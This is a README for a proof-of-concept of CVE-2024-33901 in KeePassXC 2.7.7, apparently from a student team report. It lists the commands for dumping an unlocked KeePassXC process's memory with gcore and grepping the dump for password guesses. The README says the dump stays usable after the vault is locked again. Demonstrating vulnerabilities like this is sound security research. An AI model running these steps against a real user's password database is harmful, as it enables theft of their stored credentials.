 # CVE-2024-33901-ProofOfConcept

## This code is the one referenced under the KeePassXC section in the report

Short program that demonstrates the vulnerability CVE-2024-33901 in KeePassXC version 2.7.7

This repo contains all of our team members' code, but my original repository was in:

https://github.com/gmikisilva/CVE-2024-33901-ProofOfConcept/edit/main/README.md

## How to replicate the vulnerability
1. Open KeePassXC and authenticate the database
2. While the database is authenticated, create a memory dump file for it

  This can be achieved by getting the PID, which can be done with this command:
  
    ps aux | grep keepassxc
  
  And then running this command: sudo gcore -o keepassxc_dump PID_HERE
  
  For example, if the PID that you got was 1234, then the command would have to be:
  
    sudo gcore -o keepassxc_dump 1234
  
3. Finally, you can run this command: cat keepassxc_dump.PID_HERE | strings | grep "password guess here"

  So if the PID was 1234, the command would be:

     cat keepassxc_dump.1234 | strings | grep "password guess here"

Once the memory dump file is created, the attack can be performed even if the database is locked again or if KeePassXC is closed.

The provided Python code performs all of these steps, and it attempts multiple password guesses based on the text files provided.
